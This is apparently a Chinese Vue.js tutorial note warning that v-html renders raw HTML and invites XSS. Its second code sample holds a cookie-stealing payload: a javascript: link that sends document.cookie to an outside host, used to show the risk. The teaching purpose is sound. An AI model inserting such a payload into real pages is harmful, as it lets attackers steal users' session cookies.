 - 严重注意：v-html有安全性问题！！！！

  1.在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击

  2.一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

```vue
  <div id="root">
    <div>{{name}}</div>
    <div v-text="name"></div>
    <div v-html="str"></div>
  </div>

  <script>
    // 阻止 vue 在启动时生成生产提示
    Vue.config.productionTip = false
    new Vue({
      el: '#root',
      data: {
        name: 'DouYing',
        str: '<h2>你好啊！</h2>'
      }
    })
  </script>
```

**泄露问题**

![](https://gcore.jsdelivr.net/gh/DouYingc/blogimage/img/202208101957144.png)

![](https://gcore.jsdelivr.net/gh/DouYingc/blogimage/img/202208101958453.png)

```vue
  <div id="root">
    <div>{{name}}</div>
    <div v-text="name"></div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
  </div>

  <script>
    // 阻止 vue 在启动时生成生产提示
    Vue.config.productionTip = false
    new Vue({
      el: '#root',
      data: {
        name: 'DouYing',
        str: '<h2>你好啊！</h2>',
        str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>找到你想要的资源了！</a>'
      }
    })
  </script>
```
